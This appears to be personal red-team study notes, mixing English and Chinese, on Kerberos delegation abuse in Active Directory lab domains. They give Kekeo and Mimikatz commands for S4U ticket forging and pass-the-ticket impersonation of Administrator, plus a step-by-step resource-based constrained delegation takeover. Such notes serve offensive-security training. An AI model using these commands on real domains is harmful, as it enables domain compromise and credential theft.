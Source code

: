 ```bash
## Obtain a TGT for the Constained allowed user
tgt::ask /user:dcorp-adminsrv$ /domain:dollarcorp.moneycorp.local /rc4:8c6264140d5ae7d03f7f2a53088a291d

## Get a TGS for the service you are allowed (in this case time) and for other one (in this case LDAP)
tgs::s4u /tgt:TGT_dcorpadminsrv$@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLAR CORP.MONEYCORP.LOCAL.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:time/dcorp-dc.dollarcorp.moneycorp.LOCAL|ldap/dcorpdc.dollarcorp.moneycorp.LOCAL

## Load the TGS in memory
Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_ldap~ dcorp-dc.dollarcorp.moneycorp.LOCAL@DOLLARCORP.MONEYCORP.LOCAL_ALT.kirbi"'  

# another way to exploit computer account, powershell; from ired.team/kerberos unconstrained delegation
[Reflection.Assembly]::LoadWithPartialName('System.IdentityModel') | out-null
$idToImpersonate = New-Object System.Security.Principal.WindowsIdentity @('administrator')
$idToImpersonate.Impersonate()
[System.Security.Principal.WindowsIdentity]::GetCurrent() | select name
```

### RBCD
+ Resource-Based Constrained Delegation, similar to the basic constrained delegation, diffenrence: rbcd sets in the domain object(eg.coomputer) who is able to impersonate any user against to it. basic constrained delegation need the dc(domain adminis or other privileged user) to configure to a domain user(computer account or user account with spn)
  > constrained object have an attribute called `msds-AllowedToActOnBehalfOfOtherIdentity` with a name of a user that can impersonate any other user against it.
  > any user have write permissions(GenericAll/GenericWrite/WriteProperty/WriteDacl) over a machine account can set the `msDS-AllowedToActOnBehalfOfOtherIdentity`
  > 即，约束委派需要DC进行配置（有权限的用户，比如domain admins）；基于资源的约束委派不需要DC参与可完成配置，只有某个domain用户对某个computer有写权限即可（攻击的关键点），配置`msds-AllowedToActOnBehalfOfOtherIdentity`后和约束委派没区别；
+ new concept from hacktricks
  > TrustedToAuthForDelegation flag inside the userAccountControl value of the user is needed to perform a S4U2Self, but that's not completely truth
  > even without that value, you can perform a S4U2Self against any user if you are a service (have a SPN) , silver ticket?
  > with the TrustedToAuthForDelegation flag, returned TGS will be Forwardable
  > if  the TGS used in S4U2Proxy is NOT Forwardable trying to abuse a basic Constrain Delegation it won't work. But if you are trying to exploit a Resource-Based constrain delegation, it will work (this is not a vulnerability, it's a feature, apparently).
+ attack structure
  > 1. attacker compromised an account(eg. user1) which has a SPN or create one(Service A). Note that any Admin User without any other special privilege can create up until 10 Computer objects (MachineAccountQuota) and set them a SPN. So the attacker can just create a Computer object and set a SPN.
  > 2. attacker abuse user1's WRITE privilege over the victim computer(computer1,service B), configure resourced-based constrained delegation to allow Service A to impersonate any user against Service B(computer1)
  > 3. The attacker(user1) uses Rubeus to perform a full S4U attack (S4U2Self and S4U2Proxy) from Service A to Service B for a user(usally domain admins) with privileged access to Service B. Same to constrained delegation.
  > 4. pass-the-ticket and impersonate the user(eg. domain admins) to gain access to the victim (computer1 Service B)
+ [hacktricks rbcd](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation), contains kerberos error, abuse different service tickets;
+ client1 or client1.offensive.local失败的问题, 区别在于/msdsspn指定的spn使用client1 or client1.offensive.local.[参考1](https://xz.aliyun.com/t/8690#toc-77), [参考2](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution)
+ Sensitive account cannot be delegated, 考虑其他账号（backup等）或修改tgs， [参考1](https://xz.aliyun.com/t/7454#toc-1), [参考2](https://xz.aliyun.com/t/9382#toc-18) 
+ possible to privesc or dcsync.
